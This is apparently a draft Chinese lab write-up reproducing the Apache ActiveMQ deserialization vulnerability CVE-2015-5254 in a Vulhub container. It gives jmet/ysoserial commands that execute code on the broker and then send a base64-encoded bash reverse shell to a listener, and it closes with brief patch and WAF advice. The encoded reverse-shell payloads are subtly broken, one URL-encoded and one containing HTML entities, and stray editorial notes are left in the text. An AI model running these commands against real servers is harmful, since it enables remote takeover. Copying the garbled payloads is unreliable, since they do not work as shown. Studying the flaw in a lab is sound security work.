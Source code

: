 # 复现漏洞系列
## 第一篇、ActiveMQ反序列化漏洞（CVE-2015-5254）
### 一、 介绍
#### 1.1 简介
ActiveMQ 全名：Apache ActiveMQ，是Apache软件基金会所研发的开放源代码消息中间件；由于ActiveMQ是一个纯Java程序，因此只需要操作系统支持Java虚拟机，ActiveMQ便可执行。   
是一款老牌的消息队列，同类型产品有：ZeroMQ小，RabbitMQ，Kakfa和RocketMQ。   
主要作用是异步处理，应用解耦，流量削锋和消息通讯。
#### 1.2 bug影响
大于5.0而小于5.13的版本
截止2021-08-17 已经更新到5.16.3

#### 1.3 漏洞原因
官方解释为：漏洞没有限制在代理中序列化的类，远程攻击者可以借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行恶意代码。   
个人理解为：一个消息队列，你传进去一个可执行对象（序列化对象），他也允许了，但在查看这条消息的时候，java进行了反序列化操作，也就是说他实例化了你的对象，从而执行了恶意代码。   
原本是为了使消息队列可以传递bean之类的对象，最后却执行了恶意代码。

#### 加入使用概率：

https://blog.csdn.net/Aaron_Miller/article/details/106499427

业务场景
（Tips：介绍业务场景便于我们对拿到一个站点思考是否可能应用此消息队列组件）

  消息队列在大型电子商务类网站（JD、淘宝等）深入应用，主要消除高并发访问高峰，加快网站响应速度。

（例如：不使用消息队列用户请求会直接写入数据库，在高并发情况下会对数据库造成大压力，使系统响应延迟加剧。
在使用消息队列后，用户的请求发给队列后不会立即返回，如有时提交了订单，系统提示：“您提交了订单、请等待系统确认！”
再由消息队列组件从消息队列中获取数据，异步写入数据库，从而响应延迟得以改善）

1.5 使用概率
（Tips：探测全世界使用概率可以对ActiveMQ组件使用概率心中有一个大体认识，这一点很重要！）

fofa探测各国使用数量（app=“Apache-ActiveMQ”）



#### 1.4 复现要求
* 版本处于bug要求
* 能够写入消息队列（换言之，能够在正式环境下找到会写入mq的业务并确认写入mq的具体部分）
* 需要有人查看消息队列来执行，一般恶意代码为创建用户，在目标查看后即可登录shell
### 二、复现
#### 1 模拟环境
* 通过Vulhub进行环境模拟
```
目录
~/Vulhub/activemq/CVE-2015-5254 
命令
docker-compose up -d
```
* 查看相关信息
```
# 查看容器相关信息确认ip（为与宿主机区分，如有多台实验机，可尝试实体机）
docker inspect 容器ID/容器名
# 得到 "IPAddress": 172.26.0.2（如果需要访问，需要添加路由，后续以本机ip为准）192.168.1.13

# 通过docker-compose.yml可知activemq相关端口
# 得到 ports:
    - "61616:61616"
    - "8161:8161"%
# 当然也可以通过 netstat 查询
```
* 查看部署情况
  通过宿主机进行打开
  ![image](../image/activemq.png)
#### 2.bug使用
* 使用jmet进行漏洞利用   
```
jmet 原理是使用 ysoserial（ysoserial集合了各种java反序列payload） 生成 Payload 并发送（其 jar 内自带 ysoserial无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选一个可以使用的，比如 ROME。
```
* GitHub地址：https://github.com/matthiaskaiser/jmet/releases

#### 加入：

这里可以加入这个代码的分析，我做的不太好，我就不写了，可以不加入





```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "touch /tmp/success" -Yp ROME 192.168.1.13 61616
注：本人默认jdk10执行报错(但貌似写入成功），切换为1.8成功不报异常
```
* 成功后查看是否写入
```http://192.168.1.13:8161/admin/browse.jsp?JMSDestination=event
注：默认用户名密码均为admin  加这里的用户名密码是做什么，要说明
```
  ![image](../image/activemq1.png)   
* 点击对应消息及为查看，activemq则执行对应反序列化文件
  ![image](../image/activemq_execute.png)
* 现在是需要验收的阶段了，进入docker容器中查看/tmp是否生成success文件
  ```
  docker exec -it  cve-2015-5254_activemq_1 /bin/bash
  ```
  ![image](../image/activemq_check.png)
* 确认生成之后，我们来尝试利用（反弹shell）
  ```
  mac 安装nc brew install netcat
  监听 netcat -lvvp 19111
  #发送bash弹shell的命令payload到服务器
  java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "bash -c {echo,YmFzaCUyMC1pJTIwJTNFJTI2JTIwL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzE5MTExJTIwMCUzRSUyNjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.1.13 61616
  
  ```
  ![image](../image/activemq_shell.png)
  * 添加成功

java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y "bash -c {echo,YmFzaCUyMC1pJTIwJTNFJTI2JTIwL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzE5MTExJTIwMCUzRSUyNjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.1.13 61616

命令分析

下面是我看到的命令，和你的有一些区别

My event. 你需要确认一下

```
java -jar jmet-0.1.0-all.jar -Q myevent -I ActiveMQ -Y "bash -c {echo YmFzaCAtaSAmZ3Q7Ji9kZXYvdGNwLzE5Mi4xNjguMTAxLjE0LzEzMTQgMCZndDsmMQ==}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.101.9 61616
```

# 连接后如下
  ![image](../image/activemq_seccess.png)





# 修复建议

升级版本补丁

在WAF上过滤相关命令，建立对应安全规则